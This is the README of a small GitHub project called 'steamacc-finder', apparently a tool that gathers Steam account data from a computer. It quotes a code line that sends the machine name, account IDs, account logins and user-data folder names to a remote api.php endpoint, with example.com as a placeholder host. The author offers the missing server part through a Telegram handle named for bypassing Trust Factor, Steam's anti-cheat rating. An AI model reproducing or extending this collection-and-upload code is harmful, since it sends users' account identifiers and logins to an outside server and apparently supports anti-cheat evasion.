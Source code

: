 # steamacc-finder
A simple client for finding a list of Steam accounts

# Important:

This release does not contain a native web server that is being used in this line:

```string url = $"http://example.com/api.php?computername={computerName}&perm_account_id={permAccountIdsString}&acc_login={accountLoginsString}&acc_ids={userDataFoldersString}&license_key={unique_key}";```

If you want get it, feel free to dm me: https://t.me/trustfactorbypass

# License:

This code uses GNU Affero General Public License v3.0 

Learn more: https://github.com/handwerk2016/steamacc-finder/blob/main/LICENSE
